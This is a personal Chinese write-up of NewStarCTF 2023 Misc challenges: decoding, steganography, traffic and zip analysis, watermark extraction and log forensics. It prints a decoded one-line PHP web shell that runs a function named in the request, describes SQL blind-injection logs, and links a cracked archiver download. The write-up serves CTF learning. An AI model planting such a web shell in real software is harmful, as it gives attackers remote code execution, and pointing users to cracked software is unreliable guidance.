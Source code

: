 # NewStarCTF 2023

## Misc



### CyberChef’s Secret

打开base加密，使用在线工具base32 58 64连续解码

![image-20241118112750506](C:\Users\33027\AppData\Roaming\Typora\typora-user-images\image-20241118112750506.png)

### 机密图片、

扫码，额没用

更改为jpg，额没用

试一下工具Stegsolve.jar，然后获得flag

找不到合适的版本打开的字都很小，眼睛疼

![image-20241118123835784](C:\Users\33027\AppData\Roaming\Typora\typora-user-images\image-20241118123835784.png)

![image-20241118123826742](C:\Users\33027\AppData\Roaming\Typora\typora-user-images\image-20241118123826742.png)

### 流量！鲨鱼！

使用WireShark打开它

然后导出HTTP对象文件

然后发现了这个有点像flag的文件名

打开之后发现是一串base加密后的密文，那么将它解密即可，是两层base64![image-20241118124049946](C:\Users\33027\AppData\Roaming\Typora\typora-user-images\image-20241118124049946.png)

### 压缩包们

先修改后缀名zip，打不开

winhex修改前八位为50 4B 03 04 14 00 00 00

解压，需要密码[ziperello](https://ziperello-2-1.en.softonic.com/download)直接暴力破解得到![image-20241118172707527](C:\Users\33027\AppData\Roaming\Typora\typora-user-images\image-20241118172707527.png)

看了一下解析

发现原来还有一串base64编码，不过无伤大雅，破解速度快慢的问题而已

![image-20241118173504852](C:\Users\33027\AppData\Roaming\Typora\typora-user-images\image-20241118173504852.png)

SSBsaWtlIHNpeC1kaWdpdCBudW1iZXJzIGJlY2F1c2UgdGhleSBhcmUgdmVyeSBjb25jaXNlIGFuZCBlYXN5IHRvIHJlbWVtYmVyLg==

解码得到密码提示：6位纯数字

无法解压，一开始用的7-zip测试，测试后发现压缩包存在错误，但没有修复功能

使用bandzip专业版进行修复，免费版也没有修复功能，找了好几个破解版[Bandizip解压缩软件 v7.36 正式版破解专业版 - 423Down](https://www.423down.com/9735.html)

flag{y0u_ar3_the_m4ter_of_z1111ppp_606a4adc}

### 空白格

打开什么都有，更换字体也没有

但是鼠标下滑有蓝色框框，说明是有内容的

搜索ctf空格加密

WhiteSpace，是一种只用空白字符（空格，TAB和回车）编程的语言，而其它可见字符统统为注释。https://byxs20.github.io/posts/7979.html在线解码

![img](file:///C:/Users/33027/Pictures/Screenshots/屏幕截图%202024-11-17%20203851.png)

### 隐秘的眼睛

题目翻译英文查了一下发现是SilentEye ，使用silenteye打开,decode.

![image-20241118224353357](C:\Users\33027\AppData\Roaming\Typora\typora-user-images\image-20241118224353357.png)

![image-20241118224736234](C:\Users\33027\AppData\Roaming\Typora\typora-user-images\image-20241118224736234.png)

### 新建word文档

打开word空白，ctrl+a全选，右击选择字体，关闭隐藏效果

得到如下文字新佛曰：毘諸隸僧降吽諸陀摩隸僧缽薩願毘耨咤陀願羅咤喃修願宣亦宣寂叻寂阿是吽阿塞尊劫毘般毘所聞降毘咒塞尊薩咒毘所若降般斯毘嚴毘嚴波斯迦毘色毘波嚴毘喃念若修嘚般毘我毘如毘如囑囑



复制直接搜索，第一个就是新约佛论禅![image-20241118230917010](C:\Users\33027\AppData\Roaming\Typora\typora-user-images\image-20241118230917010.png)

### 

### 永不消逝的电波

很明显的一段摩斯密码

![image-20241118231653360](C:\Users\33027\AppData\Roaming\Typora\typora-user-images\image-20241118231653360.png)

不会写代码，使用了较为朴素的方法，放大波形图一个一个抄下来

..-./.-../.-/--./-/...././-..././.../-/-.-./-/..-././.-./../.../-.--/---/..-

再在线工具解码

![image-20241118234857597](C:\Users\33027\AppData\Roaming\Typora\typora-user-images\image-20241118234857597.png)

### BASE

[https://cloud.tencent.com/developer/article/2160364](https://cloud.tencent.com/developer/article/2160364?accessToken=eyJhbGciOiJIUzI1NiIsImtpZCI6ImRlZmF1bHQiLCJ0eXAiOiJKV1QifQ.eyJleHAiOjE2OTczNzU3NTAsImZpbGVHVUlEIjoiRHk1ZWtISmhLbzBhcDV2MyIsImlhdCI6MTY5NzM3NTQ1MCwiaXNzIjoidXBsb2FkZXJfYWNjZXNzX3Jlc291cmNlIiwidXNlcklkIjotODMxMTE0NzQxNX0.mTWIluoUq65XDAhk6XrX9TnWYTlf03r-E2CS43TFFdY)

根据上述文章来看存在base隐写

base64隐写原理
在存在占位符=的情况下，会将部分位的二进制数丢弃，而这些被丢弃的位中可以插入隐写的信息，即在那些用0补充的位上插入别的信息，同时又不影响base解码
可知base64编码中，末尾=的个数只可能是0个、1个、2个，而0个的时候无法隐写，故我们需要考虑末尾有1个或2个等号的情况
————————————————

                            版权声明：本文为博主原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接和本声明。

原文链接：https://blog.csdn.net/weixin_51804748/article/details/121792094

不会脚本，找一下ai爹

![image-20241119184055143](C:\Users\33027\AppData\Roaming\Typora\typora-user-images\image-20241119184055143.png)

稍微改一下打开文件名，查了一下说要以python2运行

iDMb6ZMnTFMtFuouYZHwPTYAoWjC7Hjca8

Base58解密得到flag{b4se_1s_4_g0od_c0d3}

### java

下载附件，百度识图了一下，美女叫gakki

根据题目提示，和java有关搜索JAVA得到是JAVA盲水印，需要使用blindwatermark[BlindWatermark:Java 盲水印 - GitCode](https://gitcode.com/gh_mirrors/blin/BlindWatermark/overview?utm_source=csdn_github_accelerator&isLogin=1)

使用教程具体使用过程参考的这篇文章[【CTF-misc】java盲水印BlindWatermark工具使用_ctf 盲水印-CSDN博客](https://blog.csdn.net/qq_39972370/article/details/134145890)

正好是拿这道题举的例子，爽，一步一步跟着做就行

![image-20241119182726206](C:\Users\33027\AppData\Roaming\Typora\typora-user-images\image-20241119182726206.png)

flag{3bb3c3a628a94c}

### WELBSHELL的利用

PHP混淆加密

[php解密加密|php混淆破解|phpjm破解|phpdp神盾破解|php威盾破解|php微盾破解|tianyiw破解|php源码破解|php在线破解|php反编译|zend6解密|Zend Guard 6 破解](http://www.zhaoyuanma.com/phpjm.html)

![image-20241119122850138](C:\Users\33027\AppData\Roaming\Typora\typora-user-images\image-20241119122850138.png)

wellshell为error_reporting(0);($_GET['7d67973a'])($_POST['9fa3']); 

函数的动态调用，GET传入函数名，POST传入函数参数

![image-20241119181611837](C:\Users\33027\AppData\Roaming\Typora\typora-user-images\image-20241119181611837.png)

### 序章

完了，这个是真不会，问一问ai爹

日志中的请求是典型的SQL注入攻击尝试，攻击者试图通过逐字符比较ASCII值来获取数据库中的用户名和密码。

对SQL进行搜索找到文章[Bugku-CTF分析篇-日志审计（请从流量当中分析出flag） - 0yst3r - 博客园](https://www.cnblogs.com/0yst3r-2046/p/12322110.html?accessToken=eyJhbGciOiJIUzI1NiIsImtpZCI6ImRlZmF1bHQiLCJ0eXAiOiJKV1QifQ.eyJleHAiOjE2OTczNzU3NTAsImZpbGVHVUlEIjoiRHk1ZWtISmhLbzBhcDV2MyIsImlhdCI6MTY5NzM3NTQ1MCwiaXNzIjoidXBsb2FkZXJfYWNjZXNzX3Jlc291cmNlIiwidXNlcklkIjotODMxMTE0NzQxNX0.mTWIluoUq65XDAhk6XrX9TnWYTlf03r-E2CS43TFFdY)

使用[notepad++](https://blog.csdn.net/c_QFy_17/article/details/142600933)

用 notepad++ 的插件中的 MIME Tool 中的 URL decode 解一下码

上面说是盲注（不知道）

偷偷看一下去年wp，然后再剽窃一下大佬脚本

```
# coding:utf-8
import re
import urllib
 
f = open('access.log','r')
lines = f.readlines()
datas = []
for line in lines:
    t = urllib.unquote(line) 
    datas.append(t)
 
flag_ascii = {}  
for data in datas:
    matchObj = re.search( r'user\),(.*?),1\)\)=(.*?),sleep', data)
    if matchObj:
```

you_w4nt_s3cretflag{just_w4rm_up_s0_you_n3ed_h4rder_6026cd32},

flag{just_w4rm_up_s0_you_n3ed_h4rder_6026cd32}

